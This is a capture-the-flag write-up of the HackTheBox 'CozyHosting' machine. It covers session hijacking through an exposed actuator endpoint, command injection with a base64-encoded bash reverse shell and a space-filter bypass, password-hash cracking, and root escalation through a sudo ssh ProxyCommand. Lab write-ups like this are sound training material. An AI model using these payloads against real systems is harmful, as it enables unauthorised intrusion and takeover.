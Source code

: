 HackTheBox write up: “CozyHosting” Machine
==========================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/1*8PgWCWtteykN7zPXDqImEQ.jpeg)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-cozyhosting-machine-8b55beb59ace&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----8b55beb59ace---------------------post_header-----------)

5 min read·Just now

\--

Listen

Share

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c3c02c60-5f67-4549-b72e-d91dec6843fe)


We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5f3096be-c5ba-4ede-a450-7b96c86c73e0)


Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/df171dce-4bed-4cf0-9c99-c1a235303f92)


we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/eed4db23-58ae-4ba5-84fc-735bcbbb12f0)


And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/480cc798-d6b1-4544-8ea1-807df7c4e3f6)


After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/39720675-c0e6-4e09-8fdf-b0e9854b87d2)


after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/687529cc-c0f0-4827-ad2c-545c139697ea)


which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/0894c592-d909-4ca0-96c2-2e03d064644f)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/26b6cfd2-e020-4d48-9666-3c57a00fdebf)

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/563a5ea9-f256-4642-bfc8-a0bf72b5e5e7)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/b118bb7c-6327-4de8-b946-e1bb25a7459d)



we can start inspecting this file using tool like jd-gui
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/906a8cca-c720-4475-808b-837b5534946f)


after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads:

```
psql -h 127.0.0.1 -U postgres
``````
\\c cozyhosting
``````
\\d #to list availabe databases
``````
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c7d07dc7-f747-413d-b30a-b5511df006b4)

``````
select \* from users; #To select all data in the users database
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/2032451d-df9e-4898-8a5a-75523888c34c)

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )

```
john hash.txt --wordlist=/home/zeronull/rockyou.txt
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/d0966515-7398-4b64-a993-8df4d8349f9b)

now we can try to use this password to ssh into the machine using the user josh

```
ssh josh@10.10.11.230 
```

And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/7086d8bb-afe1-44c8-88a7-edaffc56b70f)


Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/42fe3acc-e0e8-49aa-b3f5-7181f9e65855)


we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/35470ea6-3de5-4d88-a001-c83bcd1a66df)

and by running

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

we get our root access successfully.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/f68ef66e-4fff-438f-ad98-8a7c34087c83)


and thats how we get our root flag.
